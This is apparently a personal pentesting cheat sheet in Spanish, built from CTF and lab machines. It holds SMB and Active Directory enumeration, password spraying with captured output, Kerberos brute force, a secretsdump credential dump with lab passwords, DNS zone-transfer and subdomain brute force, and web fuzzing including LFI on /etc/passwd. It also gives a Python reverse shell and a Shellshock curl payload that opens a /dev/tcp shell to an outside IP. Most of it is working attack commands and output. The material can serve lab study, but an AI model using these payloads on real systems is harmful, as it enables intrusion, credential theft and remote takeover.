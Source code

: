 ldapsearch -H ldap://flight.htb -x -s base -b '' "(objectClass=\*)" "\*" +
ldapsearch -x -h 192.168.194.165 -b “dc=heist,dc=offsec”

ENUMERACION

nmap -p- -Sp -vvv -A -T4 IP -o nmap\_ip
nmap -sU --top-ports 100 IP
nmap — script smb-vuln\* -p 139,445 -oN smb-vuln-scan $target
smbclient -L //ip -U ""
smblcient //ip/folder -U ""
enum4linux
enum4linux -u fmcsorley -p CrabSharkJellyfish192 -a 192.168.219.122 > enum4linux.txt

**\- Enumeracion crackmapexec**

#identficacion de usuarios

* [x] crackmapexec smb flight.htb -u svc\_apache -p 'S@Ss!K@\*t13' --users

└─# crackmapexec smb flight.htb -u svc\_apache -p 'S@Ss!K@\*t13' --users
SMB flight.htb 445 G0 [\*] Windows 10.0 Build 17763 x64 (name:G0) (domain:flight.htb) (signing:True) (SMBv1:False)
SMB flight.htb 445 G0 [+] flight.htb\\svc\_apache:S@Ss!K@\*t13
SMB flight.htb 445 G0 [+] Enumerated domain user(s)
SMB flight.htb 445 G0 flight.htb\\O.Possum badpwdcount: 564 baddpwdtime: 2023-01-04 00:41:24.500844
SMB flight.htb 445 G0 flight.htb\\svc\_apache badpwdcount: 0 baddpwdtime: 2023-01-04 00:13:47.582627
SMB flight.htb 445 G0 flight.htb\\V.Stevens badpwdcount: 563 baddpwdtime: 2023-01-04 00:41:24.157063
SMB flight.htb 445 G0 flight.htb\\D.Truff badpwdcount: 563 baddpwdtime: 2023-01-04 00:41:23.875796
SMB flight.htb 445 G0 flight.htb\\I.Francis badpwdcount: 563 baddpwdtime: 2023-01-04 00:41:23.532053
SMB flight.htb 445 G0 flight.htb\\W.Walker badpwdcount: 563 baddpwdtime: 2023-01-04 00:41:23.172687
SMB flight.htb 445 G0 flight.htb\\C.Bum badpwdcount: 0 baddpwdtime: 2023-01-04 00:41:22.844568
SMB flight.htb 445 G0 flight.htb\\M.Gold badpwdcount: 563 baddpwdtime: 2023-01-04 00:41:22.500791
SMB flight.htb 445 G0 flight.htb\\L.Kein badpwdcount: 563 baddpwdtime: 2023-01-04 00:41:22.172637
SMB flight.htb 445 G0 flight.htb\\G.Lors badpwdcount: 563 baddpwdtime: 2023-01-04 00:41:21.828930
SMB flight.htb 445 G0 flight.htb\\R.Cold badpwdcount: 564 baddpwdtime: 2023-01-04 00:41:25.172699
SMB flight.htb 445 G0 flight.htb\\S.Moon badpwdcount: 7 baddpwdtime: 2023-01-04 00:41:24.828922
SMB flight.htb 445 G0 flight.htb\\krbtgt badpwdcount: 0 baddpwdtime: 1600-12-31 19:00:00
SMB flight.htb 445 G0 flight.htb\\Guest badpwdcount: 0 baddpwdtime: 1600-12-31 19:00:00
SMB flight.htb 445 G0 flight.htb\\Administrator badpwdcount: 1 baddpwdtime: 2023-01-04 00:09:53.030686
#Probar usuarios con contraseñas

* [x] └─# crackmapexec smb flight.htb -u users.txt -p 'S@Ss!K@\*t13' --continue-on-success

SMB flight.htb 445 G0 [\*] Windows 10.0 Build 17763 x64 (name:G0) (domain:flight.htb) (signing:True) (SMBv1:False)
SMB flight.htb 445 G0 [-] flight.htb\\O.Possum:S@Ss!K@\*t13 STATUS\_LOGON\_FAILURE
SMB flight.htb 445 G0 [+] flight.htb\\svc\_apache:S@Ss!K@\*t13
SMB flight.htb 445 G0 [-] flight.htb\\V.Stevens:S@Ss!K@\*t13 STATUS\_LOGON\_FAILURE
SMB flight.htb 445 G0 [-] flight.htb\\D.Truff:S@Ss!K@\*t13 STATUS\_LOGON\_FAILURE
SMB flight.htb 445 G0 [-] flight.htb\\I.Francis:S@Ss!K@\*t13 STATUS\_LOGON\_FAILURE
SMB flight.htb 445 G0 [-] flight.htb\\W.Walker:S@Ss!K@\*t13 STATUS\_LOGON\_FAILURE
SMB flight.htb 445 G0 [-] flight.htb\\C.Bum:S@Ss!K@\*t13 STATUS\_LOGON\_FAILURE
SMB flight.htb 445 G0 [-] flight.htb\\M.Gold:S@Ss!K@\*t13 STATUS\_LOGON\_FAILURE
SMB flight.htb 445 G0 [-] flight.htb\\L.Kein:S@Ss!K@\*t13 STATUS\_LOGON\_FAILURE
SMB flight.htb 445 G0 [-] flight.htb\\G.Lors:S@Ss!K@\*t13 STATUS\_LOGON\_FAILURE
SMB flight.htb 445 G0 [-] flight.htb\\R.Cold:S@Ss!K@\*t13 STATUS\_LOGON\_FAILURE
SMB flight.htb 445 G0 [+] flight.htb\\S.Moon:S@Ss!K@\*t13
SMB flight.htb 445 G0 [-] flight.htb\\krbtgt:S@Ss!K@\*t13 STATUS\_LOGON\_FAILURE
SMB flight.htb 445 G0 [-] flight.htb\\Guest:S@Ss!K@\*t13 STATUS\_LOGON\_FAILURE
SMB flight.htb 445 G0 [-] flight.htb\\Administrator:S@Ss!K@\*t13 STATUS\_LOGON\_FAILURE

* [x] └─# Fuerzabruta usuarios
    kerbrute -domain heist.offsec -users /usr/share/wordlists/names.txt -dc-ip 192.168.194.165

NOTA si al ejecutar este comando "python3 set\_empty\_pw.py DC01 192.168.194.165" sale un succes, significa que se tiene null session y se puede hacer un secretsdump.py sun contraseña

#intentar escribir y obtener shell

* [x] impacket-psexec flight.htb/s.moon@g0.flight.htb

Password:
[\*] Requesting shares on g0.flight.htb.....
[-] share 'ADMIN$' is not writable.
[-] share 'C$' is not writable.
[-] share 'NETLOGON' is not writable.
[\*] Found writable share Shared
[\*] Uploading file oLnmoyYD.exe
[-] Error uploading file oLnmoyYD.exe, aborting.....
[-] Error performing the installation, cleaning up: SMB SessionError: STATUS\_ACCESS\_DENIED({Access Denied} A process has requested access to an object but has not been granted those access rights.)

<br>
de lo anterior el unico que tiene para escribir es Shared, se usa https://book.hacktricks.xyz/windows-hardening/ntlm/places-to-steal-ntlm-creds#desktop.ini

<br>
* [x] **Ver Recursos compartidos con el usuario y password**

crackmapexec smb 192.168.219.122 -u fmcsorley -p CrabSharkJellyfish192 --shares

<br>
* [x] **Enumerar usuarios de AD**

GetADUsers.py -all -dc-ip 192.168.219.122 hutch.offsec/fmcsorley:CrabSharkJellyfish192

GetNPUsers.py heist.offsec/ -dc-ip 192.168.194.165

<br>
* [x] **Volcado de password con usuario admin**

secretsdump.py hutch.offsec/administrator:‘9%GR6qN[.#)x4i’@192.168.219.122

* [x] Testing Access with the Cracked Password Using Crackmapexec
    crackmapexec smb 192.168.194.165 -u users.txt -p passwords.txt --continue-on-success \<puerto 445>
    crackmapexec winrm 192.168.194.165 -u users.txt -p passwords.txt --continue-on-success \<puerto 5985> (pwn3d!)
    evil-winrm -i 192.168.194.165 -u enox -p california

**#########DNS###############**
**Enumerar DNS Server###**
host -l 192.168.161.149#lo que se quiere buscar 192.168.161.149# (ip servidor)digpass axfr mailman.com @192.168.161.149
**-Buscar dominios fuerza burta por ip**
for ip in $\(seq 1 255\); do host 192\.168\.161\.$ip; done \| grep \-v "not found"
**-Buscar dominios fuerza bruta por listado**
for ip in $\(cat /usr/share/seclists/Discovery/DNS/subdomains\-top1mil\-5000\.txt\); do host $ip\.mailman\.com; done \|grep \-v "not found"\- Enumeracion de docminiodnsenum IP

#######WEB########
**\- Fuzzing**
dirb http://192.168.196.128/core
ffuf -w /usr/share/dirbuster/wordlists/directory-list-1.0.txt -u http://192.168.150.142/FUZZ
ffuf -w /usr/share/dirbuster/wordlists/directory-list-1.0.txt -u http://192.168.150.142/FUZZ -e .php,.conf,.xml,.html
ffuf -u 'http://192.168.94.80/console/file.php?FUZZ=/etc/passwd' -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -fs 0

**\- worpress bruteforce**
wpscan --url httpxxxx -U user -P Pass //Brute force
wpscan --url httpxxxx -e u //identifcar usuarios
wfuzz -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u "http://flight.htb/" -H "Host: FUZZ.flight.htb" --hw 530

<br>
##Reverseshell
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF\_INET,socket.SOCK\_STREAM);s.connect(("192.168.49.55",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/sh")'

<br>
**\- Auth Basic \- brute force**
hydra 192.168.55.90 -l admin -P password.lst http-get

**\- Scan user auth**
gobuster dir -u http://192.168.55.90 -U admin -P Football -w ../rockyou.txt

**\- Shellshock**
curl -vvvv -H 'User-Agent: () { :; }; /bin/bash -c "uname -i"' http://10.11.1.71/cgi-bin/admin.cgi --- Respuesta EXITOSA!!!
curl -vvvv -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/192.168.119.192/9998 0>&1' http://10.11.1.71/cgi-bin/admin.cgi --- Se crea un revershell
nc -lnvp 9998 --- recibiendo revershell

**\- RCE**
https://www.revshells.com/

**\- LFI**

Lista: https://github.com/MrW0l05zyn/pentesting/blob/master/web/payloads/lfi-rfi/lfi-linux-list.txt

' and die(show\_source('/etc/passwd')) or '

\- RPC

rpcclient -U "" -N 10.10.10.161
enumdomusers
enumdomgroups
querygroup 0x200
querygroupmem 0x200
queryuser 0x1f4

\*\*\*- SNMP
nmap -sU -p161 --script *snmp
